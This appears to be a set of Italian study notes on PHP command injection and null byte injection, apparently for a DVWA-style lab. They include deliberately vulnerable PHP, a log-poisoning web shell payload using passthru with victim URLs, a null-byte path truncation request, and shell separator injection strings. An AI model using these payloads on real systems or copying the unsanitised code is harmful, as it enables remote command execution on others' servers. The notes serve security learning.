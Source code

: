 ## Command injection

- http://www.scribd.com/doc/2530476/Php-Endangers-Remote-Code-Execution ✔
- http://www.ss64.com/bash/ ✔
- http://www.ss64.com/nt/ ✔
- https://www.owasp.org/index.php/Command_Injection \#TODO

I valori inseriti dall'utente non vengono opportunamente sanitizzati.

> https://www.exploit-db.com/papers/13073

`submit.php`

```
<form method="POST" action="">
	<textarea rows="10" name="comments" cols="60"></textarea>
	<p><input type="submit" value="Post" name="sub"></p>
</form>
```

`comments.php`

```
$comments = $_POST['comments'];

$log = fopen('comments.php','a');
fwrite($log,'<br />'.'<br />.'<center>'.'Comments::'.'<br />'.$comments);
fclose($log);
```

L'input dell'utente non viene sanitizzato.
L'attaccante può sfruttare questa vulnerabilità per eseguire comandi come `phpinfo();`.

`info.php`

```
<?php
$msg = $_GET['msg'];
$ip = getenv('REMOTE_ADDR');
$error = fopen('errorlog.php','a');
fwrite($error,'<br />'.$msg.'<br />'.$ip.'<br />');
fclose($error);
?>
```

L'attaccante inserisce il codice `<? passthru($_GET['cmd']); ?>` nel file di log `errorlog.php`.
Quando il file di log viene richiesto passando col parametro `cmd` il comando `command`, quest'ultimo viene eseguito.

`http://victim.xxx/info.php?msg=<? passthru($_GET['cmd']); ?>`

`http://victim.xxx/errorlog.php?cmd=<command>`

#### Null Byte Injection

`include.php`

```
<?php
	$file = $_GET['file'];
	include('$file.php');
?>
```

L'attaccante esclude `.php` dal nome del file inserendo il terminatore `%00` nell'URL visitata.

`http://victim.xxx/include.php?file=secret.txt%00`

### Command injection - Low

- inietta il comando CMD inserendo i seguenti valori:

	- `8.8.8.8; CMD`
	- `8.8.8.8 && CMD`
	- `8.8.8.8 & CMD`
	- `8.8.8.8 | CMD`

### Command injection - Medium

- inietta il comando CMD inserendo i seguenti valori:

	- `8.8.8.8 & CMD`
	- `8.8.8.8 | CMD`

### Command injection - High

\#TODO http://172.17.0.2/vulnerabilities/exec/

### Command injection - Protection

Per php usare `htmlentities()`, `htmlspecialchars()`, `strip_tags()`, `stripslashes()`.

